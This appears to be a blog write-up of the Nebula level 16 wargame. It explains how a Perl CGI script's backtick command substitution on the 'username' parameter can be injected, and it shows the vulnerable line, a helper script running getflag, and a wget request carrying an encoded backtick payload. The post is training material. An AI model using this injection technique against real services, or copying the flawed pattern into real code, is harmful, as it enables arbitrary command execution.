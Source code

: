 ```yaml
---
layout: post
title: "Command substitution"
category: WarGame, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 16](http://web.archive.org/web/20141004180651/http://exploit-exercises.com/nebula/level16) Agenda**: "There is a perl script running on port 1616."

<center>
	<img src="/images/2015-10-06-wildcard/7ddada3c2e20cbea171027ad38592a34.jpg">
</center>
<br />
Ок, what we've got from source? Essentially there's a one useful [query](https://en.wikipedia.org/wiki/Query_string) parameter - "_username_", which one after processing(converting to uppercase & space stripping) is gets into the line with [perl's command substitution](http://stackoverflow.com/questions/5760757/what-does-the-character-do-in-perl) (which works the same way as in the system shell):

{% highlight perl linenos %}
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
{% endhighlight %}

So what we need to do, is to create executable script with a name in uppercase and pass the right path to the query param.

{% highlight sh linenos %}
level16@nebula:/home/flag16$ cat > /tmp/X
!#/bin/sh
getflag >> /tmp/flag.txt

level16@nebula:/home/flag16$ chmod +x /tmp/X
level16@nebula:/home/flag16$ wget -q http://0.0.0.0:1616/index.cgi?username=%60/*/X%60
level16@nebula:/home/flag16$ cat /tmp/flag.txt                                  
You have successfully executed getflag on a target account

{% endhighlight %}

"_%60_" - is [encoded](https://en.wikipedia.org/wiki/Percent-encoding) backquote symbol. 

Resources:

 * [How to Use Wildcards](http://www.linfo.org/wildcard.html)
 * [What does ` (backquote/backtick) mean in bash?](http://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-bash)
 * [Command Substitution](http://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)